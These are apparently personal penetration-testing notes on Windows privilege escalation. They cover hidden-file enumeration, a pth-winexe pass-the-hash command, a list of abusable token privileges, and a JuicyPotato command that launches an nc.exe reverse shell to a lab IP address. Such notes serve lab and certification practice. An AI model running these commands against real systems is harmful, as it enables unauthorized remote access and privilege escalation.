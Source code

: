 ## Manual Enum

Check for hidden files 
```
dir /a
```
## Pass the Hash

### pth-toolkit
[pth-toolkit](https://github.com/byt3bl33d3r/pth-toolkit/tree/master)

```
pth-winexe -U jenkins/administrator //10.10.10.63 cmd.exe
```

## Abusing Token Privileges 
[Abusing Token Privileges](https://foxglovesecurity.com/2017/08/25/abusing-token-privileges-for-windows-local-privilege-escalation/) 

**How to enumerate 
```
whoami /priv 
```
Abusable privileges
```
- SeImpersonatePrivilege
- SeAssignPrimaryPrivilege
- SeTcbPrivilege
- SeBackupPrivilege
- SeRestorePrivilege
- SeCreateTokenPrivilege
- SeLoadDriverPrivilege
- SeTakeOwnershipPrivilege
- SeDebugPrivilege
- SeManageVolumePrivilege
```

### SeImpersonatePrivilege

[Rotten Potato](https://github.com/foxglovesec/RottenPotato) 

[JuicyPotato](https://github.com/ohpe/juicy-potato/tree/master)- worked on Microsoft Windows Server 2008 Standard (x86)

Juicy Rev Shell - See [[Authby]]
```
.\Juicy.Potato.x86.exe -l 1360 -p c:\windows\system32\cmd.exe -a "/c c:\users\Public\nc.exe -e cmd.exe 192.168.45.152 242"
```

[CLSID Lists](https://github.com/ohpe/juicy-potato/blob/master/CLSID/Windows_Server_2008_R2_Enterprise/CLSID.list)
